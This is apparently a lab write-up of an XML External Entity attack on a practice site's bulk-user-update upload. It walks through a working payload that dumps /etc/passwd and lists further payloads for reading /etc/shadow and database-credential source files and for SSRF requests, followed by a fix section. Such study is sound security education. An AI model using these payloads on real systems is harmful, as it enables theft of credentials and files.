







# XXE 0x01

## What is XXE (XML External Entity)?
XXE is a vulnerability in XML parsers that allows
attackers to define external entities in XML
documents. When the parser processes the malicious
XML, it can be tricked into:
- Reading sensitive files from the server
- Making requests to internal systems (SSRF)
- Causing Denial of Service
- In some cases, achieving Remote Code Execution

The vulnerability occurs when an XML parser is
configured to resolve external entities (DOCTYPE
declarations) from user-supplied XML input.

## Target
http://localhost/labs/e0x01.php

## Vulnerability
The "Bulk user update" feature accepts an XML file
upload. The server parses the XML using a parser
that resolves external entities — allowing XXE
attacks to read arbitrary files from the server.

## Attack

### Step 1 — Identify the lab
Opened XXE 0x01 — a bulk user update feature
that accepts XML files with the structure:
<creds><user>username</user><password>password</password></creds>

### Step 2 — Create a safe test XML file
Created xxe-safe.xml to confirm normal parsing:
<?xml version="1.0" encoding="UTF-8"?>
<creds>
    <user>testuser</user>
    <password>testpass</password>
</creds>

### Step 3 — Upload safe file to confirm parsing
Uploaded xxe-safe.xml through the form.
Result: "File uploaded and parsed successfully:
User: testuser
Password: testpass"
The server reflects parsed content back — perfect
for in-band XXE exfiltration.

### Step 4 — Craft XXE exploit payload
Created xxe-exploit.xml with external entity
pointing to /etc/passwd:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<creds>
    <user>&xxe;</user>
    <password>pass</password>
</creds>

### Step 5 — Upload exploit file
Selected xxe-exploit.xml and clicked Upload.

### Step 6 — Confirm XXE — file contents dumped
Result: The server returned the full contents
of /etc/passwd:
"User: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
... www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
... _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
Password: pass"

Successfully read /etc/passwd through XXE!

## Payloads Used
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<creds>
    <user>&xxe;</user>
    <password>pass</password>
</creds>
```

## Other Useful XXE Payloads
```xml
# Read /etc/hostname
<!ENTITY xxe SYSTEM "file:///etc/hostname">

# Read /etc/shadow (if web user has access)
<!ENTITY xxe SYSTEM "file:///etc/shadow">

# Read application source code
<!ENTITY xxe SYSTEM "file:///var/www/html/db.php">

# Blind XXE via PHP filter (base64 encoded)
<!ENTITY xxe SYSTEM
"php://filter/convert.base64-encode/resource=/etc/passwd">

# SSRF via XXE
<!ENTITY xxe SYSTEM "http://internal-server/admin">
```

## Screenshots








## Impact
- Read any file accessible to web server user
- Disclose source code and database credentials
- Disclose system user information
- SSRF attacks on internal network possible
- Denial of Service via Billion Laughs attack
- Possible RCE in older PHP versions via expect://

## Fix
- Disable external entity resolution in XML parsers
- In PHP: libxml_disable_entity_loader(true)
- Use less complex data formats like JSON
- Validate and whitelist allowed XML structures
- Run XML parsing with minimal privileges
- Keep XML libraries up to date
